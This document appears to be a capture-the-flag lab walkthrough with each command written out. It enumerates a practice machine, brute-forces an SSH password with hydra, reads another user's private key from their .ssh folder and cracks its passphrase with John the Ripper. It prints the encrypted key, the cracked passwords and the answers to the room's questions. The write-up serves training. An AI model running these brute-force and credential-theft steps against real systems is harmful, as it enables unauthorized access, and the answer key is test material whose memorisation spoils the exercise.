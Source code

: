 
#security #webapp #boot2root #cracking

---

> Performing an nmap scan to identify the services and ports open.

```
nmap 10.10.166.120
```

![](./screenshots/nmap-1.png)

> We see that port 80 is open, so we go to the browser and browse to `10.10.166.120:80`.

![](./screenshots/1.png)

> Checking the source code of the page to see if there is anything useful.

![](./screenshots/2.png)

> I expect to see a directory on the server such as `/dev`. 
> Trying to go to `10.10.166.120/dev` gets a 404 not found.

> Performing a directory enumeration attack.

```
gobuster dir -u http://10.10.166.120 -w /usr/share/wordlists/dirb/common.txt
```

![](./screenshots/3.png)

> As expected, we see a `/development` directory.

###### What is the name of the hidden directory on the web server(enter name without /)? : `development`

> Going to that in the browser.

![](./screenshots/4.png)


| dev.txt                  | j.txt                    |
| ------------------------ | ------------------------ |
| ![](./screenshots/5.png) | ![](./screenshots/6.png) |

> Based on the nmap scan, we are probably dealing with null sessions based on port 139 and 445.
> To enumerate all the information about the machine, use `enum4linux`.

```
enum4linux -a 10.10.166.120
```

> We see that there are 2 users, `Kay` and `Jan`.

![](./screenshots/7.png)

> We also see there is a share called `Anonymous` that we can connect to.

![](./screenshots/8.png)

> We connect to the share using `smbclient` with `-N` to force no password.

```
smbclient //10.10.166.120/Anonymous -N
```

![](./screenshots/9.png)

> We see there is a txt file.
> Downloading that file using `get staff.txt` and then opening it outside of smbclient reveals nothing.

###### What is the username? : `jan`

###### What is the name of the other user you found(all lower case)? : `kay`

> Now, we know that there is ssh through the nmap scan.

######  What service do you use to access the server(answer in abbreviation in all caps)? : `SSH`

> Since we have the username, jan, and it is through SSH, we can use hydra to enumerate the password.

> The ip address changed as the machine terminated.
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.64.88
```

![](./screenshots/10.png)

> The password for `jan` we found to be `armando`.

###### What is the password? : `armando`

> Now, we can login via ssh using the username and password we have.

```
ssh jan@10.10.64.88
```

> Inside the machine, we jump back one directory and access `/home`.
> We then see that there is another use `kay`.

```
cd kay
ls -lah 
```

![](./screenshots/11.png)

> We see the `pass.bak` file but it is accessible only via user kay.
> We see the `.ssh` file.

```
cd .ssh
ls -lah
```

![](./screenshots/12.png)

> We see the private key `id_rsa`.

```
cat id_rsa
```

> And copying its content into a new file called `id_rsa_1` on our local machine.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

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
-----END RSA PRIVATE KEY-----

```

> This key is password protected.
> Using `ssh2john` to transform it into a format the tool John The Ripper can crack.
> Writing the new format into a file called `id_rsa_2.txt`

```
ssh2john id_rsa_1 > id_rsa_2.txt
```

> Opening this file we see a hash.
> Using john the ripper on that file with the wordlist `rockyou.txt` to break the hash.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_2.txt
```

> We get as output the password `beeswax`.

![](./screenshots/13.png)

> Now that we have the private key and the password that were located inside the user `kay` directory.
> We can try to ssh using that information as kay into the machine.
> This will give us read access to the `pass.bak` file.

> IP address changed since the machine terminated.
```
ssh -i id_rsa_1 kay@10.10.227.16
```
> And entering the password `beeswax`.

> It doesn't work.
> We need to set the permissions for the private key to be read only.

```
chmod 600 id_rsa_1
```

> Trying to connect again and entering the password works.
> We can now open the `pass.bak` file to see its contents.

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

######  What is the final password you obtain? : `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---
